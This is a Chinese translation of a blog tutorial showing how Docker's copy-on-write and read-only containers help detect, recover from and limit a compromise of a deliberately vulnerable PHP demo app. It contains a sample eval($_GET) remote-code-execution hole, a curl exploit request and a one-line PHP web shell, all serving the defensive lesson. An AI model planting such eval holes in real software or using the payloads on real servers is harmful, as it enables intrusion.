



使用不可变基础设施增加攻击者的成本
========================================

Docker容器的一个独到之处它实时上是不可变的。 Docker附带一个写时拷贝文件系统，这意味着基础镜像不能被修改，除非你明确地发布一个commit指令。

这么做的原因之一是，可以很容易检查偏移，如果你在调查一个安全事故，这可能会派上用场。

#### 1. Demo
--------------------------

以下面的Demo为例：



我们的前端运行着一个[PHP应用程序](https://github.com/diogomonica/apachehackdemo)，还有一个MySQL服务器作为后端数据库。 你可以跟着操作，尝试运行下面的代码：

```bash
docker run -d --name db -e MYSQL_ROOT_PASSWORD=insecurepwd mariadb
docker run -d -p 80:80 --link db:db diogomonica/phphack
```

现在你有数据库和前端的运行，你应该会收到像下面这样的问候：


不幸的是，与其他PHP应用程序不同，这个应用程序有一个远程代码执行漏洞：

```php
if($links) {  
	<h3>Links found</h3>  
	... 
	eval($_GET['shell']);  
?>
```

这像是一个人在不应该的地方使用了*eval*！任何的攻击者可以利用这个漏洞，并且在远端的主机上执行任意的命令：

```bash
 curl -s http://localhost/\?shell\=system\("id"\)\; | grep "uid=" uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

任何攻击者对最近被攻击的主机的第一个动作是通过下载PHP shell和工具包使自己更无拘无束。 有些攻击者甚至可能会重新设计您的网站：



#### 2. 从非法入侵中恢复
----------------------------

回到不可变性，写时拷贝文件系统提供的一个很酷的事情是能够看到发生的所有更改。通过使用*docker diff*指令，我们可以看到攻击者在文件方面所做修改：

```bash
docker diff pensive_meitner
C /run  
C /run/apache2  
A /run/apache2/apache2.pid  
C /run/lock  
C /run/lock/apache2  
C /var  
C /var/www  
C /var/www/html  
C /var/www/html/index.html  
A /var/www/html/shell.php  
```

有趣的是，攻击者不仅修改*index.html*，也下载了php-shell，为了方便命名为*shell.php*。但我们的重点应该是让网站重新上线。

为了方便之后引用，我们可以通过*docker commit*储存这个镜像，既然容器是不可变的(🎉)，我们可以重启我们的容器，重新上线：

```bash
docker commit pensive_meitner
sha256:ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3  

docker kill pensive_meitner

docker run -d -p 80:80 --link db:db diogomonica/phphack
```

重新访问：



现在我们可以回到那张保存的图像，看看攻击者修改了什么：

```bash
docker run -it ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3 sh
# cat index.html
<blink>HACKED BY SUPER ELITE GROUP OF HACKERS</blink>  

# cat shell.php
<?php  
eval($_GET['cmd']);  
?>
```

看起来我们刚刚被著名的SUPER ELITE GROUP OF HACKERS入侵了。¯\(ツ)/¯


#### 3. 增加攻击者的成本
----------------------------------

能看到攻击后的容器里的改变固然重要，但是如果我们在最开始就可以避免攻击会怎么样呢？这就是*-read-only*出现的地方。

*-read-only*标志指示Docker不允许对容器的文件系统进行任何写入。这将避免对*index.php*的任何修改，但更重要的是，它不会允许攻击者下载php shell或其他任何攻击者想使用的有用工具。

让我们试一下，看看会发生什么：

```bash
docker run -p 80:80 --link db:db -v /tmp/apache2:/var/run/apache2/ -v /tmp/apache:/var/lock/apache2/ --sig-proxy=false --read-only diogomonica/phphack
...

172.17.0.1 - - [04/Sep/2016:03:59:06 +0000] "GET / HTTP/1.1" 200 219518 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.82 Safari/537.36 OPR/39.0.2256.48"  

sh: 1: cannot create index.html: Read-only file system  
```

鉴于我们的文件系统现在是只读的，似乎攻击者试图修改我们的*index.html*失败了。

#### 4. 这是没有缺陷的吗？
----------------------------

不，绝对不是。 直到我们修复这个RCE漏洞，攻击者仍然能够在我们的主机上执行代码，窃取我们的凭据，并且泄漏我们的数据库中的数据。

这里讲的是，连同运行最小的镜像和一些其他很酷的Docker安全功能，你可以使任何攻击者更难以维护持久性，更难继续乱改你的网络。

#### 5. 总结
------------------------------

我们的应用程序的安全性永远不会是完美的，但是具有不可变的基础设施有助于故障响应，允许快速恢复，并使攻击者的工作更难。

如果通过使用一个强大的沙箱，调整一些旋钮，你就可以使你的应用程序更安全，为什么不呢？


#### 6. 参考文献
------------------------------

原文链接：https://diogomonica.com/2016/11/19/increasing-attacker-cost-using-immutable-infrastructure/?from=groupmessage

作者：Diogo Mónica

